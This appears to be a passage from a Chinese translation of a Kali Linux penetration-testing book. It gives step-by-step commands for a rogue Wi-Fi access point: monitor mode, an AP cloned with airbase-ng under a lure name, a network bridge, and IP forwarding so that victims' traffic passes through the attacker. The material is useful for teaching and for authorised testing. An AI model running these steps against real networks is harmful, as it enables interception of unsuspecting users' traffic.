 大多数攻击者寻找外部工具，包括 Gerix 或 easy-creds 等脚本；然而，`aircrack-ng`套件也包括一个工具。`airbase-ng`，用于克隆接入点。

为了制作一个假的无线接入点，攻击者将：

1.  启动`wlan0`进入监视模式，这将创建一个用于监视的`mon0`接口，使用以下命令：

```
root@kali:~# airmon-ng start wlan0

```

1.  使用以下命令在`mon0`上设置接入点（AP）。社会工程学对 AP 的成功有重大影响，因此使用一个能吸引目标客户的名称。在这个例子中，我们将使用一个通用的开放式 Wi-Fi 网络名称。它将在 WiFi 频道六上建立：

```
root@kali:~# airbase-ng --essid Customer_Network 
  -c 6 mon0 

```

1.  使用以下命令安装桥接工具：

```
apt-get install bridge-utils

```

1.  在另一个终端窗口中，使用桥接工具创建一个桥接（`rogue`），并将`at0`（`at0`接口是由前一个命令创建的）链接到`eth0`（请注意，必须首先使用`apt-get install bridge-utils`安装桥接工具）。

```
root@kali:~# brctl addbr rogue
root@kali:~# brctl addif rogue at0
root@kali:~# brctl addif rogue eth0

```

因为这两个接口被集成到虚拟桥中，你可以使用以下命令释放它们的 IP 地址：

```
root@kali:~# ifconfig at0 down
root@kali:~# ifconfig at 0.0.0.0 up
root@kali:~# ifconfig eth0 down
root@kali:~# ifconfig eth0 0.0.0.0 up

```

1.  使用以下命令启用桥接上的 IP 转发：

```
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward

```

1.  使用以下命令配置桥接到连接到`eth0`的 LAN 的 IP 地址：

```
root@kali:~# ifconfig rogue 10.1.x.y netmask 255.255.255.0 broadcast 10.1.x.255 up
root@kali:~# route add default gw 10.1.x.1

```
